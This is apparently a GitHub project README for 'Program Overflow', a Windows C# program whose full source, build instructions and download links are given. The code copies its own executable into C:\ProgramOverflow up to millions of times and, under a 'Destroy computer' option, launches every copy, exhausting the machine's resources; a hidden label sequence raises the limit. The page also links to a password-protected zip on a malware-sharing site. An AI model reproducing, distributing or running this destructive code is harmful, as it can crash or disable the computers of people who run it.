 # Lumito's Program Overflow
Program Overflow is an utility that makes lots of copies of it to later run them. It's DANGEROUS!!! Please use it in a VM.
I'm not responsible of any damage this tool can make to your computer. Use it at your own risk.

-------------------------------------------

Click [here](https://lumitoluma.github.io/ProgramOverflow#downloading-compiled-source-code) to download Program Overflow or scroll down to the button of this page.

-------------------------------------------

![Program overflow image](https://lumitoluma.github.io/images/ProgramOverflow1.1.png)

## Uses of this tool:
1. Test your VM speed and durability.
2. Destroy it!

## Source code analysis:

This is the Form1.cs file, which is the most important one in this project:

```C#
using System.IO;
using System.Windows.Forms;

namespace ProgramOverflow
{
    public partial class Form1 : Form
    {
        byte counterRipPc;
        byte counterRunPrograms;
        byte RunPrograms;
        short x;
        int i;
        int ProgressBar1Value;

        public Form1()
        {
            InitializeComponent();
            counterRipPc = 0;
            counterRunPrograms = 0;
            RunPrograms = 0;
        }

        private void Button1_Click(object sender, System.EventArgs e)
        {
            // Checks if directory exists and make variables
            button1.Enabled = false;
            progressBar1.Value = 0;
            string domainupdowntext = numericUpDown1.Text;
            int NumberOfCopies = int.Parse(domainupdowntext);
            if (!Directory.Exists("C:\\ProgramOverflow"))
            {
                Directory.CreateDirectory("C:\\ProgramOverflow");
            }
            progressBar1.Maximum = NumberOfCopies * 100;
            ProgressBar1Value = progressBar1.Maximum / NumberOfCopies;
            for (i = 1; i <= NumberOfCopies; i++) // Makes the copies
            {
                progressBar1.Value += ProgressBar1Value;
                string destinationFile = "C:\\ProgramOverflow\\Program" + i + ".exe";
                var process = System.Diagnostics.Process.GetCurrentProcess();
                string fullPath = process.MainModule.FileName;
                if (!File.Exists(destinationFile))
                {
                    File.Copy(fullPath, destinationFile, true);
                }
                if (RunPrograms == 1)
                {
                    System.Diagnostics.Process.Start(destinationFile);
                }
            }
            progressBar1.Value = progressBar1.Maximum;
            button1.Enabled = true;
            label1.Text = "Done!!!";
        }

        private void RadioButton1_CheckedChanged(object sender, System.EventArgs e)
        {
                checkBox1.Enabled = true;
                checkBox2.Enabled = true;
        }

        private void CheckBox1_CheckedChanged(object sender, System.EventArgs e)
        {
            if (counterRipPc == 0)
            {
                numericUpDown1.Maximum = 999999;
                label6.Text = "Nº of copies: (Max 999999)";
                counterRipPc = 1;
            }
            else
            {
                numericUpDown1.Maximum = 9999;
                label6.Text = "Nº of copies: (Max 9999)";
                label10.Text = " ";
                counterRipPc = 0;
            }
        }

        private void CheckBox2_CheckedChanged(object sender, System.EventArgs e)
        {
            if (counterRunPrograms == 0)
            {
                RunPrograms = 1;
                counterRunPrograms = 1;
                button1.Text = "Destroy computer";
            }
            else
            {
                RunPrograms = 0;
                counterRunPrograms = 0;
                button1.Text = "Start";
            }
        }

        private void Label7_Click(object sender, System.EventArgs e)
        {
            if(counterRipPc == 1 && x == 0)
            {
                x = 1;
            }
            else
            {
                x = 0;
            }
        }

        private void Label8_Click(object sender, System.EventArgs e)
        {
            if (x == 1)
            {
                x = 2;
            }
            else
            {
                x = 0;
            }
        }

        private void Label9_Click(object sender, System.EventArgs e)
        {
            if (x == 2)
            {
                x = 3;
            }
            else
            {
                x = 0;
            }
        }

        private void Label10_Click(object sender, System.EventArgs e)
        {
            if (x == 3)
            {
                x = 0;
                numericUpDown1.Maximum = 9999999;
                label6.Text = "Nº of copies: (Max 9999999)";
                label10.Text = "Enjoy!";
            }
            else
            {
                x = 0;
            }
        }
    }
}
```

Also another important one is Program.cs

```C#
using System;
using System.Windows.Forms;

namespace ProgramOverflow
{
    public static class Program
    {
        [STAThread]
        public static void Main()
        {
            Application.EnableVisualStyles();
            Application.SetCompatibleTextRenderingDefault(false);
            Application.Run(new Form1());
        }
    }
}
```

This one runs the Form1.cs program.

## Building source code:
1. `git clone` the repository or download it using download button.
2. Use `msbuild` to build the repository. If you use the `msbuild` that is included in .NET framework 4.8, you'll just to run `msbuild` to compile it. If you use Visual Studio's `msbuild` you'll need to run `msbuild /p:Configuration=Release /p:Platform="Any CPU"` to build it.
3. Check the bin\Debug or Release folder and search for Program Overflow executable.
4. Done!!! Enjoy using Lumito's Program Overflow!

## Downloading compiled source code:
You can download compiled source code here:

[![Download](https://lumitoluma.github.io/images/Download.png)](https://lumitoluma.github.io/ProgramOverflow/Downloads/ProgramOverflow1.1.exe)

## Acknowledgements:
Thanks a lot to Endermanch for making those amazing videos that helped me to learn mor about computing and for the first version of ProgramOverflow. You can visit his github in the next link [github.com/endermanch](https://github.com/endermanch), his youtube in this link [youtube.com/endermanch](https://www.youtube.com/endermanch) and the download his ProgramOverflow [here](https://dl.malwat.ch/software/ProgramOverflow.zip) (Passowrd: mysubsarethebest).

And for you for using my software!

Hope you enjoy using it.

#### © 2020, [Lumito](https://lumitoluma.github.io)
